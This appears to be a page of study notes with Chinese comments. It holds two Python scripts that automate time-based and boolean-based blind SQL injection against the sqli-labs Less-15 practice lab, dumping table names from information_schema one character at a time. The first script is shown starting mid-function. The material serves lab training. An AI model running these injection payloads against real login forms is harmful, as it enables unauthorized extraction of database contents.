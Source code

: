 ```
            return n
 
def get_data(length):#获取数据
    global result
    for n in range(1,length):
        for v in value:
            payload = "admin' and if((ascii(substr(({0} ),{1},1)) = '{2}'),sleep(5),1) #".format(data_payload,n,ord(v))
            data = {"uname":payload,"passwd":"admin","submit":"submit"}
            start_time = time.time()
            requests.post(url,data=data)
            end_time = time.time()
            use_time = end_time - start_time
            # 为啥把sleep时间设这么长呢？原因是我这里时常会出现网络波动，有时候请求时间就有2秒多，为避免出现乱码，所以设长一点可以保证信息的准确性
            if use_time >4:
                result += v
                print("......"+result)
 
 
 
url = "http://192.168.1.101/sqli-labs-master/Less-15/"
 
data_payload ="select group_concat(table_name,0x7e)from information_schema.tables where table_schema=database()"
 
length = get_length() + 1   #注意这里要长度加 1 因为 range（1,10）的范围是 1<= x <10
get_data(length)
print(".....data is :"+ result)
```

```
#脚本
##布尔型
import requests
 
chars = "0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_,-.@&%/^!~"
result = ""
 
def get_length(value):  #获取要查询的数据的长度
    for n in range(1,100):
        payload = "admin' and length(({0})) ={1} #".format(data_payload,n)
        data = {"uname":payload,"passwd":"admin"}
        html = requests.post(url,data=data)
        length = len(html.text)
        if length >value:
            print("……data length is :" + str(n))
            return  n
 
def get_data(data_length,value): #获取数据
    global result
    for i in range(1,data_length):
        for char in chars:
            payload = "admin'and ascii(substr(({0}),{1},1))={2} #".format(data_payload,i,ord(char))
            data = {"uname":payload,"passwd":"admin"}
            html = requests.post(url,data=data)
            length = len(html.text)
            if length>value:         #根据返回长度的不同来判断字符正确与否
                result += char
                print("…… data is :"+ result)
                break
 
 
url = "http://192.168.1.101/sqli-labs-master/Less-15"
```